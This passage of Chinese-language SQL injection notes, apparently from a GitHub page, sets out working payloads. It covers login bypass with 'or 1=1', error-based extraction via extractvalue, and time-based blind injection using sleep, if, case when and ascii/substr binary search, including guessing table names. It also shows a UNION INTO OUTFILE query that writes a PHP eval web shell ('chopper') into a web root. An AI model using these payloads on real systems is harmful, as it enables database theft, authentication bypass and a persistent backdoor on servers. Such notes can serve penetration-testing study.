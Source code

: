 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```
(3). 通过ExtractValue报错

	and extractvalue(1, payload)

	and (extractvalue(1, concat(0x5c,(select user()))))
输出字符有长度限制，最长32位。

payload即我们要输入的sql查询语句




3.time-based

当无论输入什么页面都回显一样，就要考虑时间盲注了，最常见的 ``` ' and sleep(5)```

一些网站会简单过滤  ```and && or || ```,这时要借助 ```if```

如果 if 被过滤，可以使用 ```case when(payload) then sleep(5) else sleep(2) end```

```substr``` 可以精确获取一个字符，进行猜测，但前提，这个字符要在你的爆破字典里。

例如我的字典，字母数字下划线: ```sqcwertyuioplkjhgfdazxvbnm_1234567890```

如果包含其他字符，就获取不到了，这时我的程序可能就停止了。

**创建一个含有特殊字符的数据库**  ```mysql> CREATE DATABASE `!@#$%^&*()_`;```

ascii 是判断当前字符的 ascii 值与数字比较，从而虽然不知道字符具体是什么，但可以不断逼近，可以用二分法，考虑效率的话这里就涉及到一些算法了，但是不需要那么复杂，慢慢爆破就好了。


	' and (if(ascii(substr(database(),1,1))>114,sleep(10),sleep(4))  --+ 
	if（）和sleep（）联合逐个猜解数据

	如果当前查询的当前数据库ascii(substr(database(),1,1))的第一个字符的ASCII码大于100，ture 沉睡10秒，FALSE 沉睡4秒
	
	利用二分法，115为fal，114TRUE，数据库第一个字符ASCII为115，即s
	
	同理修改substr(database(),2,1)可猜第二个字符，之后同理，当然在猜数据库字符前也可先猜数据库长度：length（database()）
	
	查表(查询出数据库的第一个数据表的首字母，最后查询出数据表的名字)
	' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100#

	```WAITFOR DELAY '0:0:4```表示延迟4秒，只是用与sql server

4.UNION query

	
	Dump into Outfile (高权限注入遇到secure_file_priv):
	into outfile / into dumpfile写文件:
	union select 1,"<?php @eval($_POST['chopper']);?>",3 into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\123456.php" --+
	
	ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

*******************************

	在mysql查看secure_file_priv
	show global variables like '%secure%';
	在mysql高版本的配置文件中默认没有secure_file_priv这个选项，但是你用SQL语句来查看secure_file_priv发现，没配置这个选项就是NULL，也就是说无法导出文件。
```